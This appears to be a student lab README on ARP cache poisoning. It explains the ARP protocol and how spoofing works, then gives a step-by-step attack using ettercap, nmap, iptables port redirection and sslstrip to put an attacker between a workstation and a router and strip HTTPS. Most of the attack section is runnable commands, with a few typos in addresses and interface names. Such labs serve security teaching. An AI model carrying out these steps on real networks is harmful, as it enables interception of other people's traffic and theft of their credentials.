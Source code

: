 # ARP Cache Poisoning  

## What is the ARP Protocol  

Address Resolution Protocol (ARP) is a protocol that enables network communications to reach a specific device on the network. ARP translates Internet Protocol (IP) addresses to a Media Access Control (MAC) address, and vice versa.

## What is ARP Poisoning  

An ARP spoofing, also known as ARP poisoning, is a Man in the Middle (MitM) attack that allows attackers to intercept communication between network devices. The attack works as follows:

1. The attacker must have access to the network. They scan the network to determine the IP addresses of at least two devices⁠—let’s say these are a workstation and a router.  
2. The attacker uses a spoofing tool, such as Arpspoof or Driftnet, to send out forged ARP responses.  
3. The forged responses advertise that the correct MAC address for both IP addresses, belonging to the router and workstation, is the attacker’s MAC address. This fools both router and workstation to connect to the attacker’s machine, instead of to each other.  
4. The two devices update their ARP cache entries and from that point onwards, communicate with the attacker instead of directly with each other.  
5. The attacker is now secretly in the middle of all communications.  

## Steps to reproduce  
### [Setup(In Romanian)](https://github.com/iulianPeiu6/Labs.SI/blob/main/Homework2/Setup.pdf)  

### Run the Attack

1. Install ettercap-common
```console
sudo apt install ettercap-common
```  

3. Edit /etc/ettercap/etter.conf and uncoment the two lines after the line starting with "# if you use iptables:":
```console
sudo nano /etc/ettercap/etter.conf
```  

3.  Install nmap:
```console
sudo apt-get install nmap
```  

4. Run command:
```console
nmap -sP 192.1.11/24
```  

4. Edit /proc/sys/net/ipv4/ip_forward to change the content from "0" to "1"(if it is necesary):
```console
sudo nano /proc/sys/net/ipv4/ip_forward
```  

5. Run command:
```console
sudo iptables -t nat -A PREROUTING -i et0 -p tcp --dport 80 -j REDIRECT --to-port 8080
```  

6.  Install sslstrip:
```console
sudo apt-get install sslstrip
``` 

7. Run command:
```console
sslstrip -a -f -l 8080
``` 

On another terminal:

8. Run command & activate remote_browser plugin:
```console
sudo ettercap -i eth0 -TqM ARP:REMOTE /192.168.1.11// /192.168.1.13
``` 

Now, the attacker is secretly in the middle of all communications  from C2 to Router

### Note:  

Some browsers or web applications have protection against this attack. To demonstrate the attack I have user [https://ubuntu.com/](https://ubuntu.com/).  
